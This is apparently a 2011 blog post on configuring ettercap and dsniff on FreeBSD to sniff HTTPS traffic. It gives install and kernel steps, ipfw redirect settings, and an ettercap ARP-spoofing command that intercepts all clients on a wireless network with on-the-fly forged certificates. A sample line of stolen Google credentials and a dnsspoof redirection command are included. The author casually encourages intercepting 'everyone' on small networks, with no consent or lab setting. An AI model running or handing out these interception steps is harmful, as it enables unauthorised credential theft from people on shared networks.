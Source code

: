 ```yaml
---
title: "HTTPS password sniffing on FreeBSD"
date: "2011-01-26T09:24:00-07:00"
slug: "https-password-sniffing-on-freebsd"
---
```


Shmoocon is a few days away, it's time to gear up with common tools that I rarely use. As a [FreeBSD](http://freebsd.org) user sometimes I have to go through a little extra trouble to get some tools functioning correctly. It's generally not on the top of the list as operating systems to use as an attack platform.

Fortunately I don't have to manage wireless networks, nor do I have to watch exactly what data is traveling through http/s. So the top of the list is sniffing SSL traffic. Some people like [dsniff](http://www.monkey.org/~dugsong/dsniff/), I like [ettercap](http://ettercap.sourceforge.net) despite they have been [owned and exposed](http://www.exploit-db.com/papers/15823/), and the source possibly noodled with. Like any other software, run at your own risk, we are all most likely compromised anyway. Both software packages are available in the ports collection.

Please note this is written while running FreeBSD 8.1-RELEASE-p2

Install the security/dsniff and net-mgmt/ettercap ports.

> cd /usr/ports/net-mgmt/ettercap ; make install clean<br>
> cd /usr/ports/security/dsniff  ; make install clean

Unfortunately this does require to stray away from the GENERIC kernel. The  IPFIREWALL_FORWARD option must be compiled in, so you might as well add the standard ipfw stuff. Create a custom kernel file, and add the following options to your kernel configuration.

> cp /usr/src/sys/i386/conf/GENERIC /usr/src/sys/i386/conf/NOTGENERIC

Edit NOTGENERIC to add the following options.

> options         IPFIREWALL<br>
> options         IPFIREWALL_VERBOSE<br>
> options         IPFIREWALL_DEFAULT_TO_ACCEPT<br>
> options         IPFIREWALL_FORWARD<br>
> options         IPDIVERT<br>

Compile, install your custom kernel, and boot it.

> cd /usr/src ;  make buildkernel KERNCONF=NOTGENERIC<br>
> make installkernel KERNCONF=NOTGENERIC

Now add the following options to your /etc/rc.conf

> firewall_enable="YES"<br>
> firewall_type="open"

Finally, reboot with your new kernel configuration.

> shutdown -r now

Edit /usr/local/etc/etter.conf to adjust the privileges which are default to 65534. Uncomment the two lines for ipfw from the osx section in the file.

> redir_command_on = "ipfw add fwd 127.0.0.1,%rport tcp from any to any %port in via %iface"<br>
> redir_command_off = "ipfw -q flush"

Now you're ready to fire up your tools and skiddie away.  Ettercap doesn't care what flavor of switched network your on, just be sure to specify the interface. Smaller wireless networks where there is only basic web traffic I tend to just man in the middle everyone. Remember you can down the network, and DoS yourself with this as you're dealing with everyone's traffic. What is great about ettercap for sniffing ssl connections is it creates the fake certificates on the fly, entering the correct content with the incorrect issuer. People straight up ignore the invalid certificate and warnings their browser provides.

> ettercap -T -q -i wlan0 -l etterout.txt -M ARP // //

In this instance we have arp spoofed a wireless access point, effectively man in the middle attacking all associated clients on the network. You can now intercept the ssl handshake, provide your forged certificate, and steal the credentials in plain text.

> HTTP : 209.85.175.99:443 -> USER: acctname  PASS: stolenpass  INFO: https://www.google.com/accounts/ServiceLogin?service=mail&amp;passive=true&amp;rm=false&amp;continue=http://mail.google.com/mail/?ui=html&amp;zy=l&amp;bsv=1eic6yu9oa4y3&amp;

You can also do all these things with the dsniff package, and other utilities are still very handy such as dnsspoof if you want to target specific hosts. Create a hosts style text file to redirect domains to various ip's.

> dnsspoof -i wlan0 -f hosts
